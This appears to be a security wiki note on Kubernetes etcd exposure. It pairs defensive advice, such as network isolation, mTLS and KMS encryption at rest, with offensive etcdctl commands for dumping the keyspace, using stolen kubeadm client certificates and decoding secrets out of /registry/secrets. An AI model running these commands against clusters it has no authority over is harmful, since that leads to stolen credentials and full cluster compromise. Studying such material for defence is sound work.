

# Kubernetes etcd — Direct Access to Secrets

## Introduction
The `etcd` datastore is the brain and memory of a Kubernetes cluster. It is a strongly consistent, distributed key-value store that Kubernetes uses to store all of its cluster data, state, and metadata. Every Pod, Secret, ConfigMap, Deployment, and RoleBinding is ultimately stored within `etcd`. 

Because `etcd` contains the source of truth for the entire cluster—including all secrets in plaintext or weakly encrypted formats—direct access to `etcd` is equivalent to achieving complete cluster compromise. If an attacker can reach `etcd` and bypass authentication (or steal the client certificates required to authenticate), they bypass the `kube-apiserver` entirely. This bypasses all Role-Based Access Control (RBAC), Admission Controllers, and API-level audit logging.

This document explores the mechanics of `etcd`, how it is targeted by threat actors, the consequences of a compromised `etcd` cluster, and how to rigorously defend it.

## Architecture and Etcd Storage

In a standard Kubernetes architecture, only the `kube-apiserver` is permitted to communicate directly with `etcd`. 



### Port Details
- `2379`: Default client communication port. This is where `kube-apiserver` sends read/write requests.
- `2380`: Default server-to-server communication port used for cluster peer communication (raft consensus).

### How Secrets are Stored
By default, Kubernetes Secrets are simply base64-encoded. When they are written to `etcd`, they are stored in plaintext. If `etcd` is not configured to use Encryption at Rest (via an `EncryptionConfiguration` provider like a KMS), an attacker with direct read access to `etcd` can extract every secret in the cluster instantly.

## Exploitation Scenarios

There are several primary vectors through which an attacker might gain access to `etcd`.

### 1. Unauthenticated Network Exposure
Historically, and in misconfigured self-hosted clusters, `etcd` might be bound to `0.0.0.0` without requiring client certificate authentication. 
If `etcd` is exposed over the network without mTLS, an attacker can simply install `etcdctl` and query the datastore.

**Reconnaissance:**
```bash
# Check if etcd is accessible and unauthenticated
curl http://<ETCD_IP>:2379/version
```

**Dumping Data:**
If unauthenticated access is permitted, an attacker can use the `etcdctl` binary:
```bash
ETCDCTL_API=3 etcdctl --endpoints=http://<ETCD_IP>:2379 get / --prefix --keys-only
```

### 2. Certificate Theft (mTLS Bypass)
Modern Kubernetes deployments (like kubeadm, OpenShift, or managed cloud services) heavily lock down `etcd`. They bind `etcd` to `localhost` on the control plane nodes or use mutual TLS (mTLS) to strictly authenticate clients.

However, if an attacker gains local file system read access to a Control Plane node (e.g., via a hostPath mount vulnerability, a misconfigured privileged pod, or an SSRF), they can steal the `etcd` client certificates.

**Default Certificate Locations (kubeadm):**
- CA Certificate: `/etc/kubernetes/pki/etcd/ca.crt`
- Client Certificate: `/etc/kubernetes/pki/apiserver-etcd-client.crt`
- Client Key: `/etc/kubernetes/pki/apiserver-etcd-client.key`

Once the certificates are stolen, the attacker can authenticate to `etcd` from any machine that has network routing to the `etcd` port.

**Exploitation via Stolen Certs:**
```bash
# Set up etcdctl with stolen certificates
export ETCDCTL_API=3
export ENDPOINT=https://<ETCD_IP>:2379

etcdctl --endpoints=$ENDPOINT \
  --cacert=ca.crt \
  --cert=apiserver-etcd-client.crt \
  --key=apiserver-etcd-client.key \
  get / --prefix --keys-only
```

### Extracting Secrets
To specifically target Kubernetes secrets, the attacker can filter the `etcd` keyspace. Kubernetes stores resources under the `/registry/` prefix.

```bash
# List all secrets
etcdctl --endpoints=$ENDPOINT --cacert=ca.crt --cert=client.crt --key=client.key \
  get /registry/secrets/ --prefix --keys-only

# Read a specific secret (e.g., a service account token in the kube-system namespace)
etcdctl --endpoints=$ENDPOINT --cacert=ca.crt --cert=client.crt --key=client.key \
  get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-XXXX
```
Because the output contains control characters (protobuf format), attackers often dump the output and run `strings` on it to extract the JWTs or plaintext passwords.

```bash
etcdctl ... get /registry/secrets/default/my-db-secret -w json | jq -r .kvs[0].value | base64 -d | strings
```

### Modifying Cluster State (Write Access)
Access to `etcd` isn't just about reading data; it's also about writing data. If an attacker can write to `etcd`, they can completely alter the cluster state *invisibly* to Admission Controllers.

An attacker could manually inject a malicious Pod definition directly into `etcd`. When the `kubelet` syncs with the API server, it will see the new Pod state and execute it, bypassing tools like OPA Gatekeeper or Kyverno that only intercept traffic at the `kube-apiserver` level.

## Encryption at Rest

To mitigate the impact of `etcd` compromise, Kubernetes introduced Encryption at Rest. This ensures that sensitive resources (like Secrets) are encrypted before they are written to `etcd`.

There are several providers:
1. **Identity**: No encryption (default).
2. **aescbc / secretbox / aesgcm**: Local keys stored in a configuration file.
3. **KMS v1 / v2**: Key Management Service (AWS KMS, Azure Key Vault, Google Cloud KMS, HashiCorp Vault).

**Bypassing Local Encryption:**
If a cluster uses `aescbc` with a local key file (e.g., `/etc/kubernetes/encryption-config.yaml`), an attacker who compromises the control plane node can simply steal this file alongside the `etcd` certificates and decrypt the secrets offline.

**The KMS Advantage:**
If the cluster uses a KMS provider, the Data Encryption Key (DEK) used to encrypt the secrets in `etcd` is itself encrypted by a Key Encryption Key (KEK) stored in the external KMS. Even if the attacker steals the `etcd` database file and the control plane node's disk, they cannot decrypt the secrets without making an authenticated API call to the external KMS, which can be monitored, rotated, and explicitly denied.

## Defensive Strategies

1. **Network Isolation**: Ensure port `2379` and `2380` are absolutely unreachable from worker nodes, the internet, and internal corporate networks. Only the control plane nodes should be able to communicate with `etcd`.
2. **Strict mTLS**: Enforce mutual TLS for all `etcd` communication. Rotate the CA and client certificates regularly.
3. **Control Plane Node Security**: Secure the control plane nodes at the OS level. Do not run application workloads on control plane nodes. Restrict SSH access.
4. **Encryption at Rest via KMS**: Always configure Kubernetes to encrypt Secrets at rest using an external KMS provider. Do not rely on local encryption keys stored on the control plane nodes.
5. **Audit Etcd Logs**: While the API server handles K8s-level auditing, `etcd` can also be configured to log requests. Monitoring `etcd` access logs for unusual IP addresses or excessive read patterns can detect anomalies.
6. **Managed Control Planes**: Utilizing managed K8s services (EKS, GKE, AKS) abstracts `etcd` away from the user. The cloud provider handles securing, patching, and restricting access to `etcd`, significantly reducing the attack surface.

## Conclusion

The security of `etcd` is the absolute bedrock of Kubernetes security. A compromise of `etcd` is a catastrophic failure that grants total visibility and control over the cluster. Defenders must treat `etcd` with the highest sensitivity, ensuring robust network boundaries, mTLS, and strong encryption at rest, while offensive operators should always prioritize hunting for `etcd` exposure or certificate leakage when a control plane node is breached.

## Chaining Opportunities
- Extracting Service Account tokens from `etcd` enables [[17 - Service Account Token Theft]] for lateral movement.
- Discovering Control Plane vulnerabilities through [[13 - Kubernetes API Server — Unauthenticated Access]] can sometimes lead to file reads that expose `etcd` certificates.
- Gaining root on a control plane node via [[15 - Pod Security — Privileged Pods]] allows for dumping `etcd` certificates and local encryption config files.

## Related Notes
- [[13 - Kubernetes API Server — Unauthenticated Access]]
- [[10 - Secrets Management in CI-CD]]
- [[04 - Hashicorp Vault Security]]
